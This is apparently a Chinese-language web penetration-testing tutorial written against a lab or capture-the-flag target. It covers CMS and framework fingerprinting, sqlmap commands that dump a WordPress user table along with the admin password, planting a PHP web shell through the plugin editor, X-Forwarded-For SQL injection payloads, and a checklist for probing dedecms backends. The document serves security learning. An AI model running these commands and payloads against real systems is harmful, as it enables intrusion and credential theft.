

# WEB漏洞探针


## 相关概念

### 已知CMS

如常见的 dedecms，discuz，wordpress 等源码结构，这种一般采用非框架类开发，但也有少部分采用的是框架类开发，针对此类源码程序的安全检测，我们要利用公开的漏洞进行测试，如不存在可采用白盒代码审计自行挖掘。

### 开发框架

如常见的 thinkphp，spring，flask 等开发的源码程序，这种源码程序正常的安全测试思路：

先获取对应的开发框架信息(名字，版本)，通过公开的框架类安全问题进行测试，如不存在可采用白盒代码审计自行挖掘。

### 未知CMS

如常见的企业或个人内部程序源码，也可以是某 CMS 二次开发的源码结构，针对此类的源码程序测试思路：

能识别二次开发就按已知 CMS 思路进行，不能确定二次开发的话可以采用常规综合类扫描工具或脚本进行探针，也可以采用人工探针（功能点，参数，盲猜），同样在有源码的情况下也可以进行代码审计自行挖掘。

## 实例

### 框架类

#### ThinkPHP

通过`fofa`找到ThinkPHP的开发的程序一般含有的路径`"index/login/login"`，一般情况下，只要有这种url地址的都是ThinkPHP开发的，得到ThinkPHP的版本，就可以去网上寻找相应的漏洞，进行相应的测试。


#### Spring

对注册的数据进行抓包。


在网上寻找的相应的Payload。（CVE-2018-1273）


成功。


### 已知CMS

#### WordPress


发现是WordPress，使用Wpscan进行扫描，发现有一个插件的SQL注入漏洞。这个插件是Comment Rating。

```wpscan
wpscan --url http://ip:port/ --enumerate vp,vt,tt,u --api-token=自己在wpscan获得的免费的API-Token
```


在网上寻找到相应的漏洞地址。


自己使用SQLMap构造相应的URL进行注入。

```sql
sqlmap -u "http://124.70.71.251:45610/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a&imgIndex=1_14_" --dbs # 获取数据库
```

得到的数据库有`information_schema`，这个数据库是系统的数据库。`test`数据库是这个网站的数据库，得到test数据库下面的表。

```sql
sqlmap -u "http://124.70.71.251:45610/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a&imgIndex=1_14_" -D "test" --tables
```

发现其中有一个`wp_users`这个表，这个表是用户表，从表中拿到相应的列。

```sql
sqlmap -u "http://124.70.71.251:45610/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a&imgIndex=1_14_" -D "test" -T "wp_users" --columns
```

拿到列的数据，发现有`user_login`，`user_pass`这两个字段，分别是用户名和密码，爆出这两个字段的数据

```sql
sqlmap -u "http://124.70.71.251:45610/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a&imgIndex=1_14_" -D "test" -T "wp_users" -C "user_login,user_pass" --dump
```

拿到数据，账号是admin，密码是12qwaszx 


登录后台，一般情况下WordPress的后台是`http://ip:port/wp-login.php`


因为这个是插件的漏洞，所以我们在插件中编写PHP一句话马，需要注意的是，因为WordPress中的插件非常多，所以需要我们在对应的插件中编写相应的PHP马。


PHP马的连接地址

```url
http://124.70.71.251:45610/wp-admin/plugin-editor.php?file=akismet/akismet.php&a=te&scrollto=0
```

使用蚁剑连接。


拿到相应的flag，成功。


### 未知CMS代码审计

#### 非框架类


通过分析，加载对应网站的源码，分析出执行的SQL语句。



通过全局查找，找到对应的包含这个SQL语句的代码。


发现这个函数接收了一个变量，这个变量是`$ip`，找到这个函数是在哪里进行调用的。


发现了`getIP()`这个函数，在找到`getIP()`的实现。


发现这个是接收的参数是`X-FORWARDED-FOR`，我们可以根据这个在HTTP头中写注入语句，对网站刷新，拿到数据包，在数据包中写入下面的数据。

```sql
x-forwarded-for: 8.8.8.8' order by 5# # 判断数据库有多少列
x-forwarded-for: 8.8.8.8' union select 1,2,3,4,5# # 判断显示
x-forwarded-for: 8.8.8.8' union select 1,database(),3,user(),5# # 爆数据
```

通过上面的方式注入成功。


### 未知CMS

#### 框架类

非框架类，人工。

思路：

1. 查找：域名/rebots.txt文件

2. 查看对应CMS的版本信息

   ```
   /data/或admin/ver.txt
   ```

3. 访问`/dede`（管理员页面）尝试弱口令

4. 爆后台路径，查看数据库账号密码

   ```
   /data/mysql_ error_ _trace.inc
   ```

5. 扫描端口（888和8888端口可能会存在宝塔的漏洞）登录：ip:888/pma

6. 直接访问ip获得备份文件，网站的压缩文件。或者以前的文件。

以上思路没有先后顺序，是一般情况下的
